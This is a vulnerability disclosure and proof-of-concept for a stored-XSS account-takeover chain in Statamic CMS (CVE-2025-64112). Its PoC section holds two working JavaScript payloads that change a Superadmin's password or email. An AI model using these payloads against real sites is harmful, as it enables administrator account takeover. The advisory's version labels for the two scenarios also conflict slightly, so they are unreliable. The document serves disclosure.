 # GHSA-g59r-24g3-h7cm
Privilege Escalation in Statamic CMS - Superadmin Account Takeover PoC

> [!IMPORTANT]
> **Responsible Disclosure Notice**  
> This vulnerability was reported to the vendor/maintainer ([Statamic](https://github.com/statamic)) following a responsible disclosure process.  
> The maintainer was given more than **90 days** to acknowledge the security advisory and provide a fix, in line with industry-standard disclosure policies.  
>  
> The CVE has already been assigned - **CVE-2025-64112**.

https://github.com/statamic/cms/security/advisories/GHSA-g59r-24g3-h7cm

### Summary
There is a critical privilege escalation vulnerability in the Laravel-based content management system **Statamic CMS** that can be exploited to take over a Superadmin account. This issue comes from a combination of stored Cross-Site Scripting (XSS) vulnerabilities, which remain exploitable up to version `5.22.0` and are patched in version `5.22.1`. 

These vulnerabilities allow attackers to run malicious JavaScript in the victim's browser. A low-privileged user can inject harmful content into the **Statamic CMS**, setting a trap for the Superadmin. When the Superadmin accesses this content, the exploit runs in their session, enabling the attacker to gain higher privileges and potentially take over the system.

This problem is also related to the lack of proper server-side validation of the X-CSRF-TOKEN used in PATCH requests, which makes it easier for the attacker to change important account details like the Superadmin's password or email address.

This advisory explains the technical details, provides proof-of-concept exploits, and discusses the risks posed by these vulnerabilities, focusing on how the attack can be carried out.

### Vulnerability Overview
#### Severity: **Critical**
#### Affected Versions: **Up to and including the latest version 5.22.0**

This vulnerability is a chain attack that leverages stored XSS to escalate privileges within the CMS. It is essential to note that for this attack to be successful, the Superadmin must either click on a malicious link sent by an attacker or simply visit a compromised Collection or Taxonomy within the CMS. Once the Superadmin interacts with the infected content, the malicious JavaScript code is executed in their browser, leading to one of two potential outcomes:

1. **In versions ≤ 5.21.0**: The attacker can automatically change the Superadmin's password without requiring the current password, effectively locking the legitimate user out of their account.
2. **In version 5.22.0**: Although the password change mechanism has been secured, the attacker can still change the email address associated with the Superadmin account. This allows the attacker to initiate a password reset, gain control of the account, and access the system with the highest level of privileges.


### Steps to Reproduce

The following steps outline how to reproduce the vulnerability that allows for Superadmin account takeover via Stored Cross-Site Scripting (XSS) and insufficient X-CSRF-TOKEN validation:

1. **Create a Superadmin Account ("User1"):**
   - If this is a fresh installation, create a Superadmin account within the CMS. This account will be referred to as "User1."

2. **Create a Low-Privileged User ("User2"):**
   - Using the Superadmin account ("User1"), create a new user with low-level privileges, referred to as "User2."
   - Assign "User2" access to the Control Panel, the User list, and grant read-write permissions to Collections and/or Taxonomies.

3. **Initiate a Session as "User2":**
   - Log in as "User2" to the CMS.

4. **Inject Malicious Script:**
   - Create a new Collection or Taxonomy within the CMS as "User2."
   - Inject a malicious JavaScript payload into one of the fields that will be stored and rendered when viewed by the Superadmin.

5. **Trigger the Exploit:**
   - Wait for "User1" (the Superadmin) to access the compromised Collection or Taxonomy. This can be done by either:
     - Sending a phishing link that directs "User1" to the infected content.
     - Simply waiting for "User1" to browse the Collections or Taxonomies naturally.

6. **Observe the Outcome:**
   - Depending on the CMS version:
     - **Version ≤ 5.21.0:** The malicious script will change the Superadmin's password without requiring the current password, effectively locking the legitimate user out of their account.
     - **Version 5.22.0:** The malicious script will change the Superadmin's email address, allowing the attacker to initiate a password reset and gain control over the account.

These steps demonstrate how a low-privileged user can set up a trap for the Superadmin by exploiting the stored XSS vulnerability. The lack of proper server-side validation of the X-CSRF-TOKEN in PATCH requests makes it possible to carry out this attack, leading to a complete takeover of the Superadmin account.


### Details
The root cause of this vulnerability lies in insufficient input sanitization and validation across several components of the CMS. Specifically, the vulnerability allows for the injection of JavaScript code into forms used for creating or editing Collections, Taxonomies or Forms. These forms do not properly sanitize user input, allowing an attacker to store malicious scripts that execute when a Superadmin interacts with the compromised content.

In previous versions of the CMS, such as version 4.42.0, user inputs in certain views were not properly sanitized before being rendered on the page. For instance, in the `resources/views/partials/nav-main.blade.php` file, the variable `$item->name()` was rendered without adequate escaping or encoding. This lack of sanitization allowed attackers to inject arbitrary JavaScript code.

It looks like the vulnerability related to improper sanitization of user input, such as those found in version 4.42.0 of the Statamic CMS, is still present in the software, despite partial mitigations that have been implemented. In previous versions, like 4.42.0, user input in certain views, including the `resources/views/partials/nav-main.blade.php` file, were not adequately sanitized before being rendered on the page.

At the time of reporting the Multiple Stored Cross-Site Scripting vulnerability, version 4.42.0 was the latest available version of the Statamic CMS. Now, the software has been updated to version 5.22.0. While some improvements, such as the introduction of the `v-pre` directive, have been made to mitigate XSS risks in specific components, these mitigations appear to be incomplete. The underlying issue of inadequate input sanitization persists in other parts of the software.

For further details on the changes made, including the use of `v-pre`, please refer to the Reference section at the bottom of this Security Advisory. There is a link to a commit that shows the differences between certain versions of the affected file, highlighting the partial mitigation that was applied.

### PoC
#### Scenario 1: Superadmin Password Change (Version == 5.21.0)
> [!IMPORTANT] 
> In the `5.21.0` version, the CMS's password change mechanism did not require the current password. This allows an attacker to execute a stored XSS payload that automatically changes the Superadmin's password. The attack can be triggered by the Superadmin merely visiting a compromised Collection or Taxonomy or clicking on a malicious link.

**Exploit:**

```javascript
{{constructor.constructor("(function(){function getXsrfToken(){var token=decodeURIComponent(document.cookie.match(/XSRF-TOKEN=([^;]+)/)[1]);return token.endsWith('%3D')?token.replace(/%3D$/, '='):token;}var req=new XMLHttpRequest();req.onload=function(){var changeReq=new XMLHttpRequest();changeReq.open('PATCH','http://0.0.0.0/cp/users/<Superadmin's UUID>/password',true);changeReq.setRequestHeader('Content-Type','application/json');changeReq.setRequestHeader('X-Requested-With','XMLHttpRequest');changeReq.setRequestHeader('X-XSRF-TOKEN',getXsrfToken());changeReq.send(JSON.stringify({current_password:null,password:'987654321',password_confirmation:'987654321'}));};req.open('GET','/cp/users/<Superadmin's UUID>/edit',true);req.send();})()")()}}
```

#### Scenario 2: Superadmin Email Address Change (Version ≤ 5.21.0)
> [!IMPORTANT] 
> In the latest version (5.22.0), the password change mechanism was hardened by requiring the current password. However, the stored XSS vulnerability still allows an attacker to change the email address associated with the Superadmin account. By altering the email address, the attacker can initiate a password reset process, gaining control over the account.

**Exploit:**

```javascript
{{constructor.constructor("(function(){function getXsrfToken(){var token=decodeURIComponent(document.cookie.match(/XSRF-TOKEN=([^;]+)/)[1]);return token.endsWith('%3D')?token.replace(/%3D$/, '='):token;}var req=new XMLHttpRequest();req.onload=function(){var changeReq=new XMLHttpRequest();changeReq.open('PATCH','http://0.0.0.0/cp/users/<Superadmin's UUID>',true);changeReq.setRequestHeader('Content-Type','application/json');changeReq.setRequestHeader('X-Requested-With','XMLHttpRequest');changeReq.setRequestHeader('X-XSRF-TOKEN',getXsrfToken());changeReq.send(JSON.stringify({name:'wojt',email:'wojtek@wojtek.com',roles:[],groups:[],id:'9f4d7960-bf66-4af4-8c30-b09eb24e06ea'}));};req.open('GET','/cp/users/<Superadmin's UUID>/edit',true);req.send();})()")()}}
```

### Impact
The successful exploitation of this vulnerability allows an attacker to gain full control over the Superadmin account, leading to:

- Complete administrative access to the Statamic CMS.
- Potential for lateral movement within the application.
- Significant risk of data leakage, modification, or deletion.
- Undermining the integrity and confidentiality of the entire Statamic CMS ecosystem.

### References
- https://github.com/statamic/cms/pull/9256/commits/d9f1e916556e749a03fba6163de6cd67c3830ffd

---

**PoC video:**

[![Watch the PoC on YouTube](https://img.youtube.com/vi/qx8axpmTz1E/maxresdefault.jpg)](https://www.youtube.com/watch?v=qx8axpmTz1E)

